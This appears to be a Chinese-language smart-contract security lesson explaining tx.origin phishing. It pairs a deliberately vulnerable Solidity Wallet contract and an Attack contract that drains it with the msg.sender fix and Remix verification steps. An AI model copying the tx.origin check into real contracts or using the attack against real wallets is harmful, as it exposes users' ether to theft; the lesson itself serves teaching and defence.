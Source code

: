 # 73.Phishing with tx.origin
## msg.sender和tx.origin有什么区别？
如果合约A调用B，B调用C，在C中msg.sender是B，tx.origin是A。

## 漏洞
恶意合约可以欺骗合约所有者调用只有所有者才能调用的函数。


Wallet是一个简单的合约，只有所有者才能将以太币转移到另一个地址。
Wallet.transfer()使用tx.origin来检查调用者是否为所有者。
让我们看看如何攻击这个合约。


1. Alice部署Wallet并存入10个以太币
2. Eve部署Attack并传入Alice的Wallet合约地址
3. Eve欺骗Alice调用Attack.attack()
4. Eve成功从Alice的钱包中窃取了以太币

发生了什么？
Alice被欺骗调用Attack.attack()。在Attack.attack()内部，它请求将Alice钱包中的所有资金转移到Eve的地址。
由于Wallet.transfer()中的tx.origin等于Alice的地址，它授权了转移。钱包将所有以太币转移到了Eve。

### 钱包合约
部署钱包合约，包含一个owner状态变量用于记录合约的拥有者，包含一个构造函数和一个public函数：
* 构造函数: 在创建合约时给owner变量赋值.
* transfer(): 该函数会获得两个参数_to和_amount，先检查tx.origin == owner，无误后再给_to转账_amount数量的ETH。注意：这个函数有被钓鱼攻击的风险！
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### 共计合约

它的攻击逻辑非常简单，就是构造出一个attack()函数进行钓鱼，将银行合约拥有者的余额转账给黑客。它有2个状态变量owner和wallet，分别用来记录黑客地址和要攻击的钱包合约地址。

它包含2个函数：

* 构造函数:初始化wallet合约地址.
* attack()：攻击函数，该函数需要钱包合约的owner地址调用，owner调用攻击合约，攻击合约再调用钱包合约的transfer()函数，确认tx.origin == owner后，将银行合约内的余额全部转移到黑客地址中。

```solidity

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
### 预防技术
使用msg.sender代替tx.origin

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{ value: _amount }("");
  require(sent, "Failed to send Ether");
}
```

## remix验证
1. 署Wallet合约并转入10 eth
![73-1.jpg](img/73-1.jpg)
2. 部署attack合约传入Wallet合约地址为参数，调用attack合约，可以看到，盗取了eth
![73-2.jpg](img/73-2.jpg)
3. 尝试使用msg.sender代替tx.origin，同样的方式用attack合约攻击，验证可看到攻击失败
![73-3.jpg](img/73-3.jpg)